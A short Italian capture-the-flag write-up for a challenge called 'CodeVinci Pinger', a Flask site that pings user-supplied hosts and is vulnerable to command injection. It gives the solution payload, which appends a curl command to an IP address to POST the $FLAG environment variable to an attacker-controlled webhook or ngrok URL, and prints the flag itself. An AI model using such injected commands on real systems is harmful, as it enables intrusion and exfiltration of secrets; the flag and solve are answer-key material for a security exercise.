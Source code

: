 # CodeVinci Pinger
## Introduzione
Ho creato questo sito per vedere se un sito è online, mi raccomando, negli url non sono ammessi gli spazi!
## Vulnerabilità 
RCE
## Risoluzione
La challenge permette di inserire un input che verrà poi fatto eseguire da una shell linux, non essendoci un output dovremo quindi inviarci il risultato del comando tramite `curl` o `wget`:

solve:
`8.8.8.8;curl -X POST --data "$FLAG" "<url di webhook.sit | url di ngrok>"`
## Flag
`CodeVinciCTF{4lw4ys_ch3ck_inputs}`
## Requirements
librerie: flask
flag in $FLAG
## Autore
@gioppy.
